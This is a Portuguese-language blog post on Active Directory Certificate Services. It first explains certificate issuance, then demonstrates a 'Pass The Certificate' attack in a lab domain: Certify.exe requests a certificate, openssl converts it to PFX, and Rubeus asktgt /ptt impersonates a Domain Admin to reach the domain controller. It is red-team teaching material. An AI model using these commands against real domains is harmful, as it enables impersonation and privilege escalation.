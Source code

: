 ```yaml
---
title: "Active Directory Certificate Service (AD CS)"
excerpt: "Teoria, passos para emissão e exemplo de autenticação."
categories:
  - Hacking
tags:
  - Active Directory Certificate Service
  - Active Directory
  - AD
  - AD CS
  - Certificado
  - Certify
  - Openssl
  - Rubeus

toc: true
---
```


# Teoria

O Active Directory Certificate Services (AD CS) é um serviço da Microsoft que fornece a infraestrutura necessária para criar, gerenciar e validar certificados digitais em um ambiente corporativo. Os certificados digitais são utilizados para autenticação, assinatura digital, criptografia de dados e para assegurar a comunicação entre sistemas.

# Passos para a emissão de certificado

## Geração de Par de Chaves pelo Cliente

Um cliente, que pode ser um usuário ou um computador, gera um par de chaves: uma chave pública e uma chave privada. A chave pública será incluída no certificado digital, enquanto a chave privada será mantida em segredo pelo usuário. Este par de chaves é fundamental para a criptografia e a autenticação.

## Envio do CSR (Certificate Signing Request)

O cliente cria uma Solicitação de Assinatura de Certificado (CSR) que inclui a chave pública e outras informações, como o nome e o propósito do certificado. O CSR é então enviado para a Autoridade Certificadora (CA) corporativa.

## Validação do CSR pelo Servidor CA

O servidor CA verifica o CSR para assegurar que:

- O certificado solicitado não existe previamente.
- As configurações no CSR são permitidas pelo modelo de certificado.
- O usuário tem permissão para solicitar o certificado.

Se todas as condições forem atendidas, a CA prossegue com a emissão do certificado.

## Geração e Assinatura do Certificado

A CA gera um certificado digital que inclui a chave pública fornecida pelo cliente e o assina com sua própria chave privada. A assinatura da CA confirma a autenticidade e a validade do certificado.

## Armazenamento e Uso do Certificado pelo Cliente

O cliente recebe o certificado digital e o armazena em seu repositório de certificados. Este certificado pode ser usado para várias finalidades, como:

- **Autenticação:** Verificar a identidade do cliente em redes e sistemas.
- **Assinatura de Código:** Assegurar a integridade e a autoria do código.
- **Criptografia de Dados:** Proteger a confidencialidade dos dados transmitidos.
- **Comunicação Segura:** Estabelecer conexões seguras via SSL/TLS.

# Pass The Certificate

Demonstração de como acessar o Domain Controller através do usuário e certificado (ao invés da senha).

## Requisitar certificado (máquina privilegiada)

A conta da máquina privilegiada é do Cedric Bricks (cbricks).

```powershell
Certify.exe request /ca:DC01.redteam.corp\redteam-DC01-CA /template:User
```

![Untitled](https://github.com/user-attachments/assets/f38d2a0b-b8f5-4bb2-b316-0f4cf7163c5c)

## Converter para arquivo PFX

```powershell
openssl.exe pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![Untitled 1](https://github.com/user-attachments/assets/3b6a052c-b149-4071-bdc1-cf95f2f18fb8)

## Transferir o PFX para a máquina comum

A conta da máquina comum é da Monica Raybrandt (monraybrandt).

![Untitled 2](https://github.com/user-attachments/assets/ad04dfd3-d078-4454-9488-7ffb71878c2f)

## Requisitar TGT

Com o nome do usuário privilegiado e o certificado em mãos, pode-se requisitar o TGT.

```powershell
Rubeus.exe asktgt /user:cbricks /domain:redteam.corp /certificate:cert.pfx /ptt
```

![Untitled 3](https://github.com/user-attachments/assets/0c8e5806-b1f5-421e-af74-cfc3ea3e310d)

![Untitled 4](https://github.com/user-attachments/assets/608c8815-6eee-4dda-b1c3-511f60be8d4f)

## Listar os tickets Kerberos armazenados em cache

Listando os tickets.

![Untitled 5](https://github.com/user-attachments/assets/86a7a98b-b874-4c5a-91fa-502e8f63c8ab)

## Acessar o DC

A Mônica pode acessar as pastas e arquivos do Domain Controller pois cbricks é Domain Admin e está se passando por ele.

![Untitled 6](https://github.com/user-attachments/assets/61205ee3-0301-4789-a81f-b50212cad137)